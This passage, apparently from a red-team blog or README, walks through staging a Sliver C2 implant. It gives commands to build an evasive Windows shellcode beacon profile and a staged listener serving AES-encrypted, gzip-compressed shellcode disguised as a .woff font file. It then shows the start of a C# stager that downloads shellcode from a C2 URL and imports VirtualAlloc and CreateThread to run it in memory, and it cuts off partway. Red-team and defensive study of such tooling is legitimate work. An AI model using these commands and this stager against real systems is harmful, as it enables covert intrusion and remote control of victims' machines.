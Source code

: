 First, to create a **profile**, use the following command which is similar to how we previously createed Windows shellcode. This will create the profile 'https-win':<br />
`profiles new beacon --http https://sliver-redirector.com --os windows --format shellcode --evasion https-win`<br />

Type `profiles` and you should see your 'https-win' profile created.
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/20dd9587-79df-40c7-bb91-dd7c7bd8aee2)

Next, we need to create a staged listener that links to our profile. In this case, I obfuscated the staged payload using gzip compression and AES encryption: <br />
`stage-listener --url http://sliver-domain:80 --profile https-win --compress gzip --aes-encrypt-key "LgUmeMnmUpRrCBRB" --aes-encrypt-iv "nStxRW5o6TNHcKBx"`
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/ae2aa7e6-9e9d-4812-8d53-681651c30608)

**Note:** *If you're using your Sliver C2 server to host the stage 1 payload, you need to set it up on a different protocol/port as your HTTPS listener (which is why i used HTTP port 80). Alternatively, you can set it up, download the shellcode then host it anywhere else for better opsec (i.e. a cloud provider). If you host it elsewhere, don't forget to kill your original staged listener so you don't leave it exposed!*

Once you create the staged listener, your stage 2 payload should be available at [http://sliver-domain:80/AnythingHere.woff](http://sliver-domain:80/AnythingHere.woff). Note the ".woff" extension to download your shellcode. This is due to the "*stager_file_extension*" setting in your Sliver config ([reference](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2#implant_config)). You could change this to any other extension you like in the configuration.<br />

Now we need to create a stage 1 payload to reach out to download and decrypt/decode our stage 2 payload and then execute it. This should be as custom as possible for a red team, but a good starting point is the provided C# template [here in the Sliver documentation](https://github.com/BishopFox/sliver/wiki/Stagers#encrypted-stage-example) (note for this payload you'll have to add gzip compression if you chose that option in your `stage-listener` command).

For the standard template, update the C# payloads variables to fit your url, AES key, and AES IV at the top of the script. See a full sample payload here that's slightly customized:
```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.IO.Compression;
using System.Linq;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace Custom_Stager
{
    class Program
    {
        private static string url = "http://sliver-domain.com:80/text-fonts.woff";
        private static string AESKey = "LgUmeMnmUpRrCBRB";
        private static string AESIV = "nStxRW5o6TNHcKBx";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        // Decrypt
```